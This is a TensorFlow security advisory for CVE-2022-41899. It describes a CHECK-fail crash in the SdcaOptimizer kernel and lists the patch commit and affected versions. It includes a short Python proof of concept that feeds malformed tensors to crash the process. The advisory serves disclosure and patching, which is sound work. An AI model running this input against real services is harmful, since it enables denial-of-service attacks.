 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-161.md
## TFSA-2022-161: `CHECK` fail via inputs in `SdcaOptimizer`

### CVE Number
CVE-2022-41899

### Impact
Inputs `dense_features` or `example_state_data` not of rank 2 will trigger a `CHECK` fail in [`SdcaOptimizer`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/sdca_internal.cc).

```python
import tensorflow as tf

tf.raw_ops.SdcaOptimizer(
    sparse_example_indices=4 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.int64, maxval=100)],
    sparse_feature_indices=4 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.int64, maxval=100)],
    sparse_feature_values=8 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100)],
    dense_features=4 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100)],
    example_weights=tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100),
    example_labels=tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100),
    sparse_indices=4 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.int64, maxval=100)],
    sparse_weights=4 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100)],
    dense_weights=4 * [tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100)],
    example_state_data=tf.random.uniform([5,5,5,3], dtype=tf.dtypes.float32, maxval=100),
    loss_type="squared_loss",
    l1=0.0,
    l2=0.0,
    num_loss_partitions=1,
    num_inner_iterations=1,
    adaptative=False,)
```

### Patches
We have patched the issue in GitHub commit [80ff197d03db2a70c6a111f97dcdacad1b0babfa](https://github.com/tensorflow/tensorflow/commit/80ff197d03db2a70c6a111f97dcdacad1b0babfa).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Zizhuang Deng of IIE, UCAS
